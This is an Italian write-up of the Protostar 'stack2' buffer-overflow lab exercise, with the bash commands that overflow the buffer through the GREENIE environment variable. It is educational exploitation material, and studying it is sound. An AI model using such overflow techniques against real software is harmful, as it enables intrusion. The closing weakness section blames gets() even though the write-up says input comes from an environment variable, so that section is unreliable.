 # Protostar_stack 2 - Buffer overflow

## Obiettivo della sfida
Impostare il valore di _modified_ a **0x0d0a0d0a**
a tempo di esecuzione

## Raccolta informazioni
Il programma _stack2_ accetta input locali tramite una variabile d'ambiente **GREENIE**, essa non esiste quindi va creata. La stringa 0x0d0a0d0a corrisponde a "\r\n\r\n"

## Strategia d'attacco
Creiamo la variabile d'ambiente **GREENIE**, la riempiamo inizialmente con 64 'a' e alla fine aggiungiamo la stringa 0x0a0d0a0d (ricordiamoci che l'architettura è little endian) 

### Istruzioni da eseguire
```bash
> cd /opt/protostar/bin
> export GREENIE=$(python -c 'print "a" * 64 + "\x0a\x0d\x0a\x0d"')
> echo $GREENIE
# verifichiamo che la stringa sia corretta
> ./stack2
# sfida vinta
```

## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`
